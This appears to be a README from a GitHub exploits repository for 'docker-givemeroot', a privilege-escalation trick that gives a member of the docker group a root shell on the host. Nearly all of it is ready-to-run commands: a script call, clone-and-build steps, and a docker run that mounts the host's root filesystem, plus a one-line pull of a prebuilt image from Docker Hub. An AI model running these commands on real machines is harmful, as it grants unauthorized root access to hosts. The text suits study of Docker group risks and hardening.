 docker-givemeroot
=================

If you're a member of the 'docker' group on a machine, this command gives you a root shell on the host OS. 
It's not a vuln it works because of a design decision by docker. 

Simple usage
---------------------

```bash
>  ./exploit.sh 
```

Manual instructions
--------------------
 
```bash
> git clone https://github.com/mikaelkall/exploits.git exploits
> cd exploits/docker-givemeroot/
> docker build -t givemeroot .
> docker run -v /:/mnt -i -t givemeroot
```

From dockerhub
---------------------

```bash
> docker run -v /:/mnt -i -t nighter/givemeroot
```
